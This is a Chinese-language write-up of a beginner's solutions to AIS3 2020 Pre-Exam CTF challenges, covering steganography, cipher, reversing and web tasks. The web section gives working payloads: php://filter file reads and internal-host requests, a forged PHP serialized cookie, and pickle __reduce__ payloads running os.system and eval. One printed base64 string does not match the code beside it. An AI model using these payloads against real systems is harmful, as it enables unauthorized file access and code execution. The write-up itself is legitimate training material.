




## 📋 題目列表

| 分類       | 題目                    | 最後分數 | 解題人數 | 解題成功 |
| ---------- | ----------------------- | -------- | -------- | -------- |
| 🐧 Misc    | 💤 Piquero              | 100      | 347      | ✅       |
| 🐧 Misc    | 🐥 Karuego              | 100      | 245      | ✅       |
| 🐧 Misc    | 🌱 Soy                  | 139      | 172      | ✅       |
| 🐧 Misc    | 👑 Saburo               | 359      | 108      | ✅       |
| 🐧 Misc    | 👿 Shichirou            | 450      | 65       |          |
| 🐧 Misc    | 🧸 Clara                | 500      | 2        |          |
| ♻️ Reverse | 🍍 TsaiBro              | 100      | 281      |          |
| ♻️ Reverse | 🎹 Fallen Beat          | 144      | 171      | ✅       |
| ♻️ Reverse | 🧠 Stand up!Brain       | 455      | 62       |          |
| ♻️ Reverse | 🍹 Long Island Iced Tea | 498      | 15       |          |
| ♻️ Reverse | 🌹 La vie en rose       | 499      | 12       |          |
| ♻️ Reverse | 🐉 Uroboros             | 500      | 9        |          |
| 💥 Pwn     | 👻 BOF                  | 100      | 189      |          |
| 💥 Pwn     | 📃 Nonsense             | 474      | 47       |          |
| 💥 Pwn     | 🔫 Portal gun           | 491      | 28       |          |
| 💥 Pwn     | 🏫 Morty school         | 498      | 14       |          |
| 💥 Pwn     | 🔮 Death crystal        | 499      | 10       |          |
| 💥 Pwn     | 📦 Meeseeks box         | 500      | 8        |          |
| 🙊 Crypto  | 🦕 Brontosaurus         | 100      | 380      | ✅       |
| 🙊 Crypto  | 🦖 T-Rex                | 100      | 381      | ✅       |
| 🙊 Crypto  | 🐙 Octopus              | 372      | 103      |          |
| 🙊 Crypto  | 🐡 Blowfish             | 480      | 42       |          |
| 🙊 Crypto  | 🐪 Camel                | 497      | 18       |          |
| 🙊 Crypto  | 🐢 Turtle               | 498      | 14       |          |
| 🌐 Web     | 🐿️ Squirrel             | 100      | 220      |          |
| 🌐 Web     | 🦈 Shark                | 100      | 261      | ✅       |
| 🌐 Web     | 🐘 Elephant             | 168      | 165      | ✅       |
| 🌐 Web     | 🐍 Snake                | 272      | 137      | ✅       |
| 🌐 Web     | 🦉 Owl                  | 492      | 27       |          |
| 🌐 Web     | 🦏 Rhino                | 494      | 24       |          |

## 🐧 Misc

### 💤 Piquero


如果你搭電梯真的很無聊，你對這題一定特別有想法 (X

反正就是點字 (Braille)，翻譯一下就出來了

要注意的就是 大寫英文、數字和標點前面會多一方標註

但查表可能很難查/查不到，所以我是解完其他題之後用腦補的方式猜完中間的標點

另外我發現一個小技巧，比方說要查 `⠸` 這個 4 5 6 有點的你可以直接打英文維基的網址

https://en.wikipedia.org/wiki/Braille_pattern_dots-456

裡面就會列出他在不同語言代表的意思

Flag：`AIS3{I_feel_sleepy_Good_Night!!!}`

### 🐥 Karuego


這個是一張 png 的圖片，flag 就藏在這個裡面

用`binwalk`把壓在裡面的壓縮檔解出來

```bash
binwalk -e Karuego_0d9f4a9262326e0150272debfd4418aaa600ffe4.png
```

再用`zsteg`獲得壓縮檔的密碼

```bash
$ zsteg Karuego_0d9f4a9262326e0150272debfd4418aaa600ffe4.png
[?] 1201353 bytes of extra data after image end (IEND), offset = 0x1f6d30
extradata:0         .. file: Zip archive data, at least v1.0 to extract
    00000000: 50 4b 03 04 0a 00 00 00  00 00 40 8a bd 50 00 00  |PK........@..P..|
    00000010: 00 00 00 00 00 00 00 00  00 00 06 00 1c 00 66 69  |..............fi|
    00000020: 6c 65 73 2f 55 54 09 00  03 47 d3 d0 5e ed d3 d0  |les/UT...G..^...|
    00000030: 5e 75 78 0b 00 01 04 f5  01 00 00 04 14 00 00 00  |^ux.............|
    00000040: 50 4b 03 04 14 00 09 00  08 00 6f 21 07 49 ac 2c  |PK........o!.I.,|
    00000050: 71 1f 7c b9 01 00 d6 b9  01 00 35 00 1c 00 66 69  |q.|.......5...fi|
    00000060: 6c 65 73 2f 33 61 36 36  66 61 35 38 38 37 62 63  |les/3a66fa5887bc|
    00000070: 62 37 34 30 34 33 38 66  31 66 62 34 39 66 37 38  |b740438f1fb49f78|
    00000080: 35 36 39 63 62 35 36 65  39 32 33 33 5f 68 71 2e  |569cb56e9233_hq.|
    00000090: 6a 70 67 55 54 09 00 03  71 44 a6 57 48 d3 d0 5e  |jpgUT...qD.WH..^|
    000000a0: 75 78 0b 00 01 04 f5 01  00 00 04 14 00 00 00 1d  |ux..............|
    000000b0: cd 40 aa 87 37 8a 57 93  85 a9 4c b3 cf fd 58 2d  |.@..7.W...L...X-|
    000000c0: 38 10 a2 2a dc 61 3e 8a  67 bf 4c c1 e1 cb d0 d0  |8..*.a>.g.L.....|
    000000d0: 32 65 97 d0 b5 ef f0 a5  2a 04 a6 00 af b2 63 e9  |2e......*.....c.|
    000000e0: 19 c2 6a 7b de 79 a3 a2  3f 0a b3 e8 74 67 35 ec  |..j{.y..?...tg5.|
    000000f0: 1b 8b 90 c9 76 30 ad ab  18 7a e9 9a ed f7 8e 7c  |....v0...z.....||
b1,rgb,lsb,xy       .. text: "The key is : lafire"
b1,bgr,lsb,xy       .. <wbStego size=865108, data=";M\xCD!,\xC5\xA0:\x807"..., even=false, enc="wbStego 2.x/3.x", controlbyte="\x80">
b3,r,lsb,xy         .. file: gfxboot compiled html help file
b3,bgr,msb,xy       .. file: Applesoft BASIC program data, first line number 2
b4,r,lsb,xy         .. file: PDP-11 UNIX/RT ldp
b4,g,lsb,xy         .. file: a.out VAX demand paged (first page unmapped) pure executable not stripped
b4,b,lsb,xy         .. file: Targa image data - Map 16 x 4096 x 16 +16 +4353 ""
b4,rgb,lsb,xy       .. file: Targa image data - Map (256-4112) 4096 x 65536 x 1 +4097 +257 - right ""
b4,bgr,lsb,xy       .. file: PDP-11 UNIX/RT ldp
```

可以看到密碼是`lafire`，解開壓縮檔，裡面的圖片就有 flag 了

至於上面這堆東西我是怎麼想到的，簡單來說是 Google，更準確的說就是 Google `CTF 圖片`，第一筆就是了

小心英文小寫`l`和數字`1`，看了好久 QQ

Flag：`AIS3{Ar3_y0u_r34l1y_r34dy_t0_sumnn0n_4_D3m0n?}`

### 🌱 Soy


就是修復 QR Code，沒毛病

但是如果對 QR Code 有一些基礎的了解，是很有幫助的

比方說下面這張空的 QR Code


紅色的是固定的定位標記，藍色的是[Format Info](https://zh.wikipedia.org/wiki/QR%E7%A2%BC#%E7%BB%93%E6%9E%84)

我是使用 [QRazyBox](https://merricx.github.io/qrazybox/) 這個工具修復的，點擊藍藍色的區域會列出所有可能的格式

跟題目的 QR Code 對照，可以找到 Error Correction Level: `L`，Mask Pattern: `0`是唯一的可能解

接下來把題目剩下的格子一個一個填進去，解到一定的程度之後就可以掃的出來了


Flag：`AIS3{H0w_c4n_y0u_f1nd_me?!?!?!!}`

### 👑 Saburo


這題一開始我本來也是沒什麼想法

頂多就是發現輸入`AIS3{`可以得到比其他隨機的 input 來得高一點的延遲

雖然有點頭緒了，但這種暴力解題實在是太白痴

所以我後來是先放著去解其他題

直到第二天晚上，我發現很多人在 Discord 聊天群上抱怨這一題的秒數很跳

然後才意識到，嗯 看起來我的方向應該是沒有錯：）

反正~~水題~~會的題目也解的差不多了，那就來硬幹這一題吧呵呵

我原本的想法是 用 Python 寫一個腳本

迭代所有 ASCII Pritable 的字，抓秒數最大的，然後重複到下大括號出現就是完整解碼了

大致上就是下面醬

```python
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("60.250.197.227", 11001))
s.send(b"\n");
s.send(input(s.recv(1024).strip().decode()).encode())
print(s.recv(1024).strip().decode())
```

可是不管我怎麼調，他的秒數不會像在 Terminal 裡面一樣加上去

事到如今，只能把他改成 Shell Script 了

可是，好難 ~~而且這學期的 Unix 也沒教~~

於是絕望之際，我有一個大膽的想法


如果沒用過的，這個叫按鍵精靈

基本上就是把一系列的鍵盤操作預錄成腳本然後自動執行

我是用 Mac 的 Keyboard Maestro，但我相信其他按鍵精靈也可以輕鬆達到類似的效果

啊執行起來就會像下面這樣

<script src="https://asciinema.org/a/339381.js" id="asciicast-339381" async></script>

這一次 Iteration 的答案是`i`哦，你猜對了嗎：）

我也沒有，這是示範的所以我把次數調到只有 3 次

根據出題 TA 的說法，每解一個字就約有 5ms 的浮動範圍，後期浮動疊加起來會抖很大

所以到最後面接近結尾的時候

幾乎要測到 10 次以上取平均才比較有機會觀察到差異

或是就 發揮你的想像力


You are my Ene.... energy?

好吧想像力薄弱的話就只能多試幾次ㄌ唄

最後快解出來的秒數大概會接近 400ms

Flag：`AIS3{A1r1ght_U_4r3_my_3n3nnies}`

## ♻️ Reverse

### 🎹 Fallen Beat


這題其實是我解出來的第一題，

也是少數幾題我沒看其他 Write Up，100%自己解出來的題目

學了這麼多 OOP 總算有點屁用了 xDDDD

老實說我也不知道腦子哪裡撞到了，第一題居然挑這麼認真的題目

載下來很快就發現，啊 原來是音 game

只要打出 Full Combo 就可以得到 flag 了是吧


呵呵，呵呵呵

題目分類都叫 Reverse 了，~~臭肥宅還想來硬的啊~~

還是先把 jar 重新 decompile 吧

其實我也不知道正規的 decompile 作法是什麼

但是隨便 Google 就有一大堆可以線上 decompile 的工具了

首先解完之後會有很多的 java 檔

針對整個 source code 全域搜索`flag`會找到`Visual/PanelEnding.java`裡的 method`setValue`裡有這段

```java
if (t == mc) {
    for (int i = 0; i < cache.size(); ++i) {
        final byte[] flag = this.flag;
        final int n = i % this.flag.length;
        flag[n] ^= (byte)(Object)cache.get(i);
    }
    final String fff = new String(this.flag);
    this.text[0].setText(String.format("Flag: %s", fff));
}
```

可以看到 flag 並沒有被明文儲存，而是透過其中一個 class attributes`flag`

和傳進來的 cache 做 xor，所以還要再往上追傳進來的 cache 是什麼

於是再用`SetValue`做一次全域搜索，可以看到`SetValue`只會在`Control/GameControl.java`裡被呼叫

打開這份 java 檔，呼叫`SetValue`中`cache`的參數是把`this.cache`傳下去

往上找可以看到`this.cache`是在這個 Class 的 Constructor 中宣告的

```java
// ...
final FileReader fr = new FileReader(fumenPath);
final BufferedReader br = new BufferedReader(fr);
// ...
this.cache = new ArrayList<Integer>();
// ...
while (br.ready()) {
    final String s = br.readLine();
    if (s.charAt(0) != '*') {
        // ...
        this.cache.add(a);
        // ...
    }
}
```

但是這裡的`fumenPath`也是在 class 的宣告時傳進來的

於是再用`GameControl`做第三次的全域搜索

就會發現`GameControl`只會在`Control/Frame.java`中宣告

於是我們終於找到`fumenPath`是的值是`songs/gekkou/hell.txt`

重新把 code 打包成[`Exploit.java`](https://github.com/tomy0000000/AIS3-2020-PreExam/blob/main/Solving%20Source%20Code/%F0%9F%8E%B9%20Fallen%20Beat/Exploit.java)

然後把原本解壓縮目錄裡的`songs/gekkou/hell.txt`移到這個 java 檔的同一個目錄底下執行就可以得到 flag 了

特別小心原本 GameControl 裡是用 br 來讀 cache 的，可是在讀 cache 之前有多一行

```java
this.bpm = Integer.parseInt(br.readLine());
```

所以這一行也必須加進`Expolit.java`裡，不然轉換會出錯

Flag：`AIS3{Wow_how_m4ny_h4nds_do_you_h4ve}`

## 🙊 Crypto

### 🦕 Brontosaurus


從題目的說明可以看到

~~這題是考古題，所以立馬打開 Google 搜尋`AIS3 2019 Pre Exam Write Up`~~

最後一個關鍵字`KcufsJ`，反過來變成`JsfucK` (其實如果直接把`KcufsJ`拿去 google 也可以發現)

這是一種特殊的 JavaScript，可以在 Google 上隨便找一個解碼器

然後把題目的文字檔塞進去，發現不能解

因為題目有提示過，得要先反轉一次才能解碼

Flag：`AIS3{Br0n7Os4uru5_ch3at_3asi1Y}`

### 🦖 T-Rex


這題的關鍵字在`nihilist`，

a.k.a. 虛無主義者，其實跟解題一點關係都沒有

但是 nihilist cipher 有，至於我是怎麼知道的

就...Google 關鍵字`nihilist CTF`或`nihilist encoding`

nihilist cipher 由兩個關鍵部件組成，一個是加密盤，一個是密文

由密文一個一個對應加密盤解碼，就可以回推出解密的 Flag

雖然網路上好像有不少現成的工具，但我找不太到適合的

所以自己用 Python 寫了一個，有興趣的可以看看[`T-Rex.py`](https://github.com/tomy0000000/AIS3-2020-PreExam/blob/main/Solving%20Source%20Code/%F0%9F%A6%96%20T-Rex/T-Rex.py)

Flag：

```
AIS3{TYR4NN0S4URU5_R3X_GIV3_Y0U_SOMETHING_RANDOM_5TD6XQIVN3H7EUF8ODET4T3H907HUC69L6LTSH4KN3EURN49BIOUY6HBFCVJRZP0O83FWM0Z59IISJ5A2VFQG1QJ0LECYLA0A1UYIHTIIT1IWH0JX4T3ZJ1KSBRM9GED63CJVBQHQORVEJZELUJW5UG78B9PP1SIRM1IF500H52USDPIVRK7VGZULBO3RRE1OLNGNALX}
```

## 🌐 Web

### 🦈 Shark


從題目的描述，我猜這題應該是某一年考古題的進化版

但難得這題我的解題靈感並不是來自前幾年的 Writeup

首先來看主頁


原始碼也沒什麼特別的，點進連結看看


提示說 flag 並不在執行 server 的這台主機上，而是在同一個區域網路下的另一台 web 伺服器伺服器上

再觀察網址的部分可以猜`path`後面帶的參數可以用來檢視主機上的檔案

我有點忘記當時是看哪個 writeup 或教學了

但總之就是，Unix 系統經常在`/proc/net/fib_trie`中存入區域網路相關的資訊

所以先試試

https://shark.ais3.org/?path=/proc/net/fib_trie

可是會被拒絕存取，換別的看看

https://shark.ais3.org/?path=index.php


這裡可以發現這一段 php 會用 regular expression 阻擋絕對路徑和使用`..`作為路徑開頭的檔案

這時候就要引入另一個 php 的弱點了：[php://](https://www.php.net/manual/en/wrappers.php.php)

`php://`是一個 php 自訂的 protocal，可以用來處理 data stream

比方說範例中的

```php
readfile("php://filter/resource=http://www.example.com");
```

可以載入 http://www.example.com 的資料

所以我們把原本的

https://shark.ais3.org/?path=/proc/net/fib_trie

改成

https://shark.ais3.org/?path=php://filter/resource=/proc/net/fib_trie


嗒噠！！

接下來就是分析這份檔案裡的網址，

詳細的作法 google 一下就很多了

但我在解題的時候整個看下來

撇掉`0.0.0.0`是 unicast

還有`127.0.0.0`應該是跟 localhost 有關的

只有 172 開頭的看起來像是 router 分配的區域網路 IP

所以照著一開始提示，試試看

https://shark.ais3.org/?path=php://filter/resource=http://172.22.0.1/flag

沒有：（

再試試

https://shark.ais3.org/?path=php://filter/resource=http://172.22.0.2/flag

BINGO🎉

Flag：`AIS3{5h4rk5_d0n'7_5w1m_b4ckw4rd5}`

### 🐘 Elephant


先看看連結


不知道這是什麼

隨便打個名字 submit 看看


岔題一下，題目有提到網頁中有提示，可是 discord 上很多人都找不到

這我就不懂了，就算你連開發者工具都不會用，在網頁上亂拉亂點或全選總不是什麼困難的事吧 (?



其實老實說我到結束都沒有找到看 source code 的方法，

但還是解出來了，但應該還是算預期解啦 (我猜)

OK 扯遠了，回頭看看網頁的文字

> Hello, Tomy! Your token is not sufficient to read the flag!

看到這裡的關鍵字 token，我大膽猜測，前一個網頁是一個登入的介面

根據輸入的使用者姓名來決定要不要給 flag

那登入完之後通常會帶上 cookie，那就來檢查一下


php 的 cookie 通常是 base64 encode，先解回來

```
O:4:"User":2:{s:4:"name";s:4:"Tomy";s:11:"?User?token";s:32:"8bd5e99e146d0af7cc75e8f2bcc9693e";}
```

接下來，按照這份 Cheatsheet: [w181496 / Web-CTF-Cheatsheet](https://github.com/w181496/Web-CTF-Cheatsheet#php---serialize--unserialize) 的提示

再加上已知 php 的字串==布林值 true

可以修改一下這個 cookie

```
O:4:"User":2:{s:4:"name";s:4:"Tomy";s:11:"?User?token";b:1;}
```

用 base64 encode 回去，再填回瀏覽器裡


Flag：`AIS3{0nly_3l3ph4n75_5h0uld_0wn_1v0ry}`

### 🐍 Snake


這題其實是真·賽到

根據我事後跟出題者 [@djosix](https://github.com/djosix) 的討論

我的解法方向上是對的

但是理論上 100%的解題進度

我在解到大概 50%的時候 Flag 就噴出來了

但是

I'm certainly not the first, and definitely not the last.

會發生這個現象並不是因為我的解法而產生的特殊解

而是跑 flask gunicorn 的全域變數被改掉了

所以某一些 request 就被 cache 起來之類的

~~這就是為什麼 final countdown 前這題突然多了好多解題成功的紀錄~~

但總之我還是記錄一下我的解題思路

```python
from flask import Flask, Response, request
import pickle, base64, traceback

Response.default_mimetype = 'text/plain'

app = Flask(__name__)

@app.route("/")
def index():
    data = request.values.get('data')

    if data is not None:
        try:
            data = base64.b64decode(data)
            data = pickle.loads(data)

            if data and not data:
                return open('/flag').read()

            return str(data)
        except:
            return traceback.format_exc()

    return open(__file__).read()
```

進來首先就先看到 flask 的 source code

在第 10~15 行的地方可以看到送一個 data 字串的參數進去

會先被 base64 decode，然後以字串的型態 pickle load 為 Python 的物件

然後如果滿足`data and not data`的話

就可以成功讀出 flag

當時我看到這題的第一個想法是

如果我可以寫一個自定義的 class

然後 overload and, not, bool 之類的 operator 就可以滿足這個 if 條件式了

於是我讀了一下 Python [Truth Value Testing](https://docs.python.org/3.8/library/stdtypes.html#truth) 和 [operator](https://docs.python.org/3.8/library/operator.html#module-operator) 的文檔

然後發現 and 跟 not 是不能被 overload 的

所以我現在唯一的辦法就是 overload bool operator

讓他在奇數次呼叫的時候回傳 True

偶數次呼叫回傳 False

Class 大概長這樣

```python
class Exploit(object):
    def __init__(self, initial=True):
        self.initial = initial
    def __bool__(self):
        self.initial = not self.initial
        return not self.initial
```

測試一下

```python
e = Exploit()
print(e and not e) # True
```

漂亮

接下來只要把它封裝起來就可以了

```python
import pickle
import base64
print(base64.b64encode(pickle.dumps(e)).decode())
# gANjX19tYWluX18KRXhwbG9pdApxACmBcQF9cQJYBwAAAGluaXRpYWxxA4hzYi4=
```

打包成網址

https://snake.ais3.org/?data=gANjX19tYWluX18KRXhwbG9pdApxACmBcQF9cQJYBwAAAGluaXRpYWxxA4hzYi4=

```
Traceback (most recent call last):
  File "./main.py", line 15, in index
    data = pickle.loads(data)
AttributeError: Can't get attribute 'Exploit' on <module '__main__' (built-in)>
```

經過一陣子的研究，問題在於一個很重要的概念，[文檔](https://docs.python.org/3/library/pickle.html#comparison-with-marshal)裡有提到

> pickle can save and restore class instances transparently, however the **class definition must be importable** and live in the same module as when the object was stored.

也就是說，除非執行 Flask 的環境有一個特別定義好可以讓我們 load 的 class (別鬧了)

不然唯一的可能就是上傳一個 Python 原生環境就有的物件

於是我又翻了一下 Elephant 那題用到的 [w181496 / Web-CTF-Cheatsheet](https://github.com/w181496/Web-CTF-Cheatsheet#python-pickle)

裡面有提到 pickle 有一個神奇的用法

對於某些不應該被直接 serialize 和 dump 成 string 的物件/屬性，比方說 file descriptor

可以把還原這些東西的方式定義在 \_\_reduce\_\_ 這個 method 來讓 pickle load 的時候呼叫

[文檔](https://docs.python.org/3.8/library/pickle.html#object.__reduce__)裡有更多詳細的說明和用法，細節不贅述

簡單的來說，以下面這個 Class 做範例

```python
class Exploit(object):
    def __reduce__(self):
        return os.system, ("id",)
```

pickle load 的時候，會呼叫

```python
os.system("id")
```

但是因為這個 function 在 Python 中本來就只會回傳指令執行返回的狀態

而不會 pipe stdout 到變數裡

所以應該找類似的 function 來試試

中間我試了很多其他的

可是跑出來的結果幾乎都跟我想像的不一樣

我開始懷疑預期解是不是另有他方，伺服器把這條路給擋掉了

為了測試伺服器的確有確實呼叫我後面參數的 shell 指令

於是我把上面的範例修改了一下下

```python
class Exploit(object):
    def __reduce__(self):
        return os.system, ("sleep 5",)
```

如果這個 request 轉了超過 5 秒才回傳

就代表指令有被確實被執行

於是我開心的輸入網址

https://snake.ais3.org/?data=gANjcG9zaXgKc3lzdGVtCnEAWAcAAABzbGVlcCA1cQGFcQJScQMu

```
AIS3{7h3_5n4k3_w1ll_4lw4y5_b173_b4ck.}
```

Excuse Me???

我知道大難當前我缺分數

但...


啊 反正 flag 有了，

等比賽正式結束我再來慢慢研究

於是乎，即便等到比賽結束了我還是想不透

直到隔天下午



於是後來我私訊了作者之後

才得出了上面開頭的結論

那就直接跳結論

```python
class Exploit(object):
    def __reduce__(self):
        return (eval, ("open('/flag').read()",))

e = Exploit()
print(base64.b64encode(pickle.dumps(e)).decode())
# gANjcG9zaXgKc3lzdGVtCnEAWAIAAABpZHEBhXECUnEDLg==
```

其實正規解法跟我的進度其實就只差最後一個重點：

_evil 的 eval_

作者的[官方解](https://github.com/djosix/AIS3-2020-Pre-Exam#snake-web)那邊還有很多解法

伺服器被玩壞可能的原因等等腦洞大開的細節

有興趣就自行移駕囉

## 心得


人生中第一場 CTF，解了 10 題，看了很多前輩寫的 Write Up，讓我獲益良多，解了不少題目，所以比賽還沒結束我就想好要寫這份 Write Up 和心得了。

作為一個新手寫的的 Write Up，立場應該會稍微接近正常人的思維，沒有祖傳秘方或通靈大法，解題過程都還算有上下文，希望能幫助到有興趣的人。

也感謝所有的出題 TA：

- ~~出了很多水題讓我撿~~
- 24 小時全力放送洗腦音樂、宣傳各種邪教（X
- 最後一天伺服器爆了加賽 2 小時，讓我親眼見證 Saburo 是解的出來的

順便附上一點小心得：

- 搜尋關鍵字 + CTF 可以平均一題可以節省 30 分鐘至 3 小時左右
- 解題不用通靈，但是快速分辨水題可能要 (?)，先寫會的這種事相信大啊國小老師都有教 吧(?)

- 不要屯 flag、不要屯 flag、不要屯 flag
  

- ~~AIS3 重點不是解題，進 Discord 聊天群刷 GIF 和 emoji 才是本體~~

好了，這份 Write Up 經歷期末專題加期末考轟炸，

打了這麼久，終於收工了，感謝各位客官的收看







